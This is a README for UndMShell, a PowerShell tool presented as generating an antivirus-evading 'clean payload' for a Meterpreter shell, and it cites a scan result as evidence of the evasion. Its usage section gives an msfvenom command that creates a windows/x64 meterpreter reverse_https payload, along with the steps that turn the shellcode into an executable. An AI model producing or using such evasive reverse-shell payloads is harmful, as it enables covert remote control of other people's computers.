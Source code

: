 # UndMShell
**UndMShell** is a tool to generate a [clean payload](https://antiscan.me/scan/new/result?id=uKE1Uhhi9drE) to get a Meterpreter shell.

Check the result below -7/10/2021-.

![enter image description here](https://antiscan.me/images/result/uKE1Uhhi9drE.png)

### Installation
```
 1. Run powersehll as Administrator
 2. Install-Module ps2exe
```

###  Usage
```
PS C:\> # First, you need to generate a shellcode from Msfvenom and save it into txt file.
PS C:\> # msfvenom -p windows/x64/meterpreter/reverse_https LHOST=127.0.0.1 LPORT=443 EXITFUNC=thread -f ps1
PS C:\> # Then run the script.
PS C:\> .\UndMShell.ps1 shellcode.txt UndMShell.exe
[-] UndMShell v0.1 | Coded by Abdullah AlZahrani | GitHub.com/0xAbdullah
- Your shellcode file: shellcode.txt
- Something is cooking, wait.
- Your payload is ready: UndMShell.exe
```
